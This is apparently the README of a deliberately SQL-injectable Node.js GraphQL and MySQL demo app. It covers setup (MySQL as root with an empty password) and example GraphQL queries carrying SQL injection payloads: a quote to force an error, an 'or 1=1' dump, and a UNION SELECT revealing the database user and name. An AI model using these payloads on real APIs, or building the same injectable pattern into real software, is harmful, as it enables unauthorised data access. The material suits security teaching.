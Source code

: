 NodeJS graphQL MySQL example
==================================

This is a simple experimental example of how to match graphql-js and MySQL for the implementation of a GraphQL API.

- This project requires a version of NodeJS with support for async-await

Getting Started
---------------

```sh
# clone the project
git clone https://github.com/justinlarson/nodejs-graphql-mysql-example-sqli.git
cd nodejs-graphql-mysql-example-sqli

# Install dependencies
npm install

# Run the server
PORT=8085 MYSQL_DB_USER=root MYSQL_DB_NAME=exapp MYSQL_DB_PASSWORD= MYSQL_DB_ADDRESS=localhost MYSQL_DB_POOL_SIZE=10 npm start

# Access GraphQLi
http://localhost:8085/graphql
```

Please remember to export the example SQL schema located in ./sql/exapp.sql

## Example operations

### See SQL Error
```js
{
  bacon(id:"1'"){
    id,
    price,
    type
  }
}
```
#### Show all bacons
```js
{
  bacons(type:"chunky'or 1=1#"){
    id,
    price,
    type
  }
}

```

### Show current use anddatabase 
```js
{
  bacons(type:"13.0' union select current_user(),database(),3 and 1=1#"){
    id,
    price,
    type
  }
}
```





License
-------

MIT
